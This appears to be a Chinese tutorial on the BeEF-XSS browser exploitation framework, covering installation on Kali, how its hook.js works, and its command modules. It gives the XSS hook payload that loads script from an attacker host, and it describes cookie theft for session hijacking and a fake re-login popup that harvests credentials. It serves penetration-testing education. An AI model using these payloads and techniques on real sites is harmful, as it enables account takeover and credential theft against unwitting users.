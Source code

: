 [beef-xss详细教程(一文带你学会beef) | Kali下安装beef | beef-xss反射型，储存型利用 | beef实现Cookie会话劫持 | 键盘监听 | 浏览器弹窗，重定向等-CSDN博客](https://blog.csdn.net/qq_53517370/article/details/128992559)

[（26）【xss环境搭建一条龙】【pm、bf使用】轻量xss平台、Postman、beef-xss功能模块利用\_pmbf-CSDN博客](https://blog.csdn.net/qq_53079406/article/details/123718492)
## **BeEF基础**

BeEF是目前最强大的浏览器开源渗透测试框架，通过XSS漏洞配合JS脚本和Metasploit进行渗透；

BeEF是基于Ruby语言编写的，并且支持图形化界面，操作简单；

项目地址：http://beefproject.com/

kali工具：https://www.kali.org/tools/beef-xss/

教程参考：https://www.freebuf.com/sectool/178512.html

安装

```
sudo apt install beef-xss -y
```

启动

```
sudo beef-xss
或
systemctl start beef-xss
```

关闭

```
sudo beef-xss-stop
或
systemctl stop beef-xss
```

重启

```text
systemctl restart beef-xss
```

查看和修改用户名密码

```
初次使用会让你设置密码
如果忘了，可以到beef配置文件 /usr/share/beef-xss/config.yaml 查看和修改
```

页面访问

```
[*]  Web UI: http://127.0.0.1:3000/ui/panel
宿主机访问虚拟机中的beef，将IP改为虚拟机的IP访问即可
[*]  Web UI: http://192.168.216.128:3000/ui/panel
[*]    Hook: <script src="http://<IP>:3000/hook.js"></script>
[*] Example: <script src="http://127.0.0.1:3000/hook.js"></script>
```

## 工具原理

beef-XSS有一个内置的 hook.js 文件，文件里是一些用来交互的JS代码。

我们提交payload的时候，其实就是把这个「Hook脚本」挂到了网页上。

挂上去以后，beef-XSS就可以通过「Hook脚本」，和网页进行交互。

我们提交的payload实际上就是在页面插入了一行js代码，代码的内容是一个链接，指向了beef-XSS的hook.js文件：

Hook简单使用

```
<script src='http:/192.168.216.128:3000/hook.js'></script>
```

## 工具界面介绍

beef-XSS界面有很多栏，重点是 Commands 栏的功能指令，其他的基本用不到，不用太留意。

1. Online Browsers：在线浏览器，工具定时发送链接请求，链接成功就会显示在这里。
2. Offline Browsers：离线浏览器
3. Getting Started：入门指南，官方的一些文档
4. Logs：日志，记录工具做过哪些操
5. Zombies：僵尸，记录可以利用的目标站点
6. Current Browser：上线的浏览器，只有在目标在线的时候才会显示出来。
7. Details：细节，展示目标的IP、版本等信息
8. Logs：日志、记录目标浏览器做过哪些操作
9. Command：指令，工具的核心，不同的指令对应不同的操作
   - Module Tree：模块树，可以使用的模块功能
   - Mpdule Result History：模块使用记录
   - XXX：指令描述，解释这个功能是干什么用的，怎么使用

### 命令颜色说明(Color):

- 「绿色」：可以运行，且用户不会感觉出异常
- 「橙色」：可以运行，但用户可能感到异常（弹窗等）
- 「灰色」：未验证，不确定是否可以使用
- 「红色」：不可用

### Commands主要模块

- ==Browsser==：主要是针对浏览器的一些信息收集或攻击，其下的子选项卡Hooked Domain主要是获取HTTP属性值，比如cookie、表单值等，还可以做写简单的浏览器操作，比如替换href值，弹出警告框，重定向浏览器等。这个选项卡下的有些模块会根据受害者的浏览器来决定是否显示。主要是浏览器通用操作和其他基本信息检测。
	- Hooked Domain
		- Get Cookie：会话劫持
			- 执行后可以在页面看到Cookie：`data: cookie=xxxxx`
			- 利用：浏览器中按F12进入控制台，输入命令：`document.cookie="xxxxx"`,刷新，可以看到首页登录了对应的账号页面
		- Redirect Browsser：浏览器重定向
			- 右侧 Redirect URL 中输入要跳转的网址，点右下角 Execute
		- Create Alert Dialog：弹窗alert
- ==Chrome extensions==：主要是针对谷歌浏览器扩展插件
- ==Debug==：调试功能
- ==Exploits==：漏洞利用，主要利用一些已公开的漏洞进行攻击测试
- ==Host==：针对主机，比如检测主机的浏览器、系统信息、IP地址、安装软件等等
- ==IPEC==：协议间通信。主要是用来连接、控制受害者浏览器的
- ==Metasploit==：Beef可通过配置和metasploit平台联合，一旦有受害者出现，可通过信息收集确定是否存在漏洞，进一步方便metasploit攻击测试
- ==Misc==：杂项。
- ==Network==：网络扫描
- ==Persistence==：维护受害者访问
- ==Phonegap==：手机测试
- ==Social engineering==：社会工程学攻击
	- Pretty Theft：社工弹窗
		- 右侧链接的IP改成部署Beef-xss的主机IP，点击Execute。目标页面就会弹窗，提示会话超时，要求重新登录。目标“登录”后，登录信息就会提交到工具中，点击对应的记录就坑查看提交的信息。
		- 右侧的 Dialog Type 可以选择「弹窗的类型」，比如，换个Windows的弹窗。页面就会弹出 Windows安全认证的登录窗口。

